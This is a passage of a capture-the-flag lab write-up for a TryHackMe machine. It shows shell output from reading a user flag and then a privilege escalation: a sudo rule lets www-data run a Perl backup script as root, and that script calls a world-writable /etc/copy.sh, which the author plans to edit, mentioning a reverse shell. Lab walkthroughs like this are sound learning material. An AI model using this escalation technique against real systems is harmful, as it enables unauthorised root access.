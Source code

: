 


## User.txt flag

```bash
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media   proc  sbin  sys  var
cdrom  home  lib         mnt     root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy/
www-data@THM-Chal:/home/itguy$ ls 
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{63e*****************************}
www-data@THM-Chal:/home/itguy$
```

***





## Privilege Escalation

```bash
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

* Oh !!, he is a very lazy sysad, I can run perl and backup.pl as root with no password
* backup.pl content, if we list the file we will see that there is no write permission for us

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

*   but if we list copy.sh we will see this

    ```perl
    www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh 
    -rw-r--rwx 1 root root 97 May 18 11:15 /etc/copy.sh
    ```
*   we can edit copy.sh, we can type a reverse shell inside the file, but for simplicity we will use `bash -p`
